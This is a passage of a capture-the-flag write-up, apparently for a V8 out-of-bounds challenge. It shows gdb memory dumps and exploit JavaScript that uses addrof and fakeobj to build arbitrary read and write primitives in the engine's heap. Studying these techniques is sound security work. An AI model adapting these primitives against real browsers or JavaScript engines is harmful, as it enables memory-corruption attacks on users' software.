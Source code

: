 ```

// [+] Leak address of floatArray: 0x3dbbd148f619
// (gdb) x/32xw 0x3dbbd148f619-1-0x30
// 0x3dbbd148f5e8:	0xd98414f9	0x00003369	0x00000000	0x00000004  <-- FixedDoubleArray
// 0x3dbbd148f5f8:	0x43142ed9	0x00003fb1	0x33333333	0x3ff33333
// 0x3dbbd148f608:	0x37f9f3c9	0x00000c6a	0x66666666	0x3ff66666  <-- elements[2]
// 0x3dbbd148f618:	0x43142ed9	0x00003fb1	0xd9840c71	0x00003369  <-- JSArray
// 0x3dbbd148f628:	0xd148f5e9	0x00003dbb	0x00000000	0x00000004  <-- elements ptr
// 0x3dbbd148f638:	0xd9840561	0x00003369	0x43142ed9	0x00003fb1
// 0x3dbbd148f648:	0xd98412c9	0x00003369	0x00000000	0x00000001
// 0x3dbbd148f658:	0x00000000	0x00000400	0xd98413b9	0x00003369

let fakeArray = fakeobj(addrof(floatArray)-0x20n);
console.log("[+] Leak: 0x" + ftoi(fakeArray[0]).toString(16)); // Leak the value at target_string_addr + 0x10
```

The primitive code:

```
// This array is what we will use to read from and write to arbitrary memory addresses
var arb_rw_arr = [float_arr_map, 1.2, 1.3, 1.4];

console.log("[+] Controlled float array: 0x" + addrof(arb_rw_arr).toString(16));

function arb_read(addr) {
    // We have to use tagged pointers for reading, so we tag the addr
    if (addr % 2n == 0)
	addr += 1n;

    // Place a fakeobj right on top of our crafted array with a float array map
    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);

    // Change the elements pointer using our crafted array to read_addr-0x10
    arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);

    // Index 0 will then return the value at read_addr
    return ftoi(fake[0]);
}
```


#### Arbitrary Write Primitive

According to the [blog](https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/) that if we reuse the arbirary read primitive and try to overwrite the `fakeobj[0]`, it won't work on some addresses (e.g. free_hook addr). However, overwrite the string field (valid JS runtime object field) in the above example is still working.

```
let target_string = "AAAAAAAA";
let target_string_addr = addrof(target_string);
console.log("[+] Address of target string: 0x" + target_string_addr.toString(16));

let floatArray = [1.1, 1.2, 1.3, 1.4];
let floatArrayMap = floatArray.oob();
floatArray[0] = floatArrayMap;
floatArray[2] = itof(BigInt(target_string_addr));
console.log("[+] Leak address of floatArray: 0x" + addrof(floatArray).toString(16));

let fakeArray = fakeobj(addrof(floatArray)-0x20n);
console.log("[+] Leak: 0x" + ftoi(fakeArray[0]).toString(16)); // Leak the value at target_string_addr + 0x10

console.log("[+] Try to overwrite to this value: " + itof(BigInt(0x4242424242424242)));
fakeArray[0] = itof(BigInt(0x4242424242424242));
```